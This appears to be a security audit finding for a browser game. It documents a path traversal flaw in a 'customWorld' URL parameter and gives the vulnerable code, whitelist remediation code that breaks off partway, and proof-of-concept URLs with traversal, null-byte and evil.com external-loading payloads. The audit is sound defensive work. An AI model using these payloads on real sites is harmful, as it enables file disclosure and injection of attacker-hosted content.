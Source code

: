 
### VULN-004: URL Parameter Path Traversal
**File**: `game/index.html`  
**Lines**: 588-592  
**Severity**: 🟠 **HIGH**  
**CVSS v3.1 Score**: **6.5** (Medium)  
**Verification Status**: ✅ **CONFIRMED**

#### Vulnerability Details
```javascript
// VULNERABLE CODE - Lines 588-592
const urlParams = new URLSearchParams(window.location.search);
const customWorldParam = urlParams.get('customWorld'); // ⚠️ UNSANITIZED

if (customWorldParam) {
    const worldPath = `worlds/${customWorldParam}/world.json`; // ⚠️ PATH TRAVERSAL
    const customWorldData = await World.loadFromFile(worldPath);
}
```

#### Proof of Concept
```
# Path traversal attack
http://localhost/game/?customWorld=../../src/js/auth

# Protocol injection
http://localhost/game/?customWorld=//evil.com/malicious

# Null byte injection (some browsers)
http://localhost/game/?customWorld=../../config%00
```

#### Impact Analysis
- ⚠️ **Read arbitrary files** via path traversal
- ⚠️ **External resource loading** (SSRF-like in browser context)
- ⚠️ **Information disclosure** (read sensitive files)
- ⚠️ **Future backend risk** if server-side loading is added

#### Remediation (SECURE)
```javascript
// Whitelist of allowed worlds
const ALLOWED_WORLDS = ['tir-na-nog', 'default', 'test', 'tutorial'];

const urlParams = new URLSearchParams(window.location.search);
const customWorldParam = urlParams.get('customWorld');

if (customWorldParam) {
    // ✅ Sanitize: alphanumeric, hyphens, underscores only
    const sanitized = customWorldParam
        .replace(/[^a-z0-9-_]/gi, '')
        .substring(0, 50); // Max length
    
    // ✅ Whitelist check
    if (!ALLOWED_WORLDS.includes(sanitized.toLowerCase())) {
        console.error('Invalid world name:', sanitized);
        alert(`World "${customWorldParam}" not found. Using default world.`);
        game = new Game(null, null);
    } else {
        // ✅ Safe path construction
        const worldPath = `worlds/${sanitized}/world.json`;
        const customWorldData = await World.loadFromFile(worldPath);
        
        if (customWorldData) {
            game = new Game(null, null, customWorldData);
```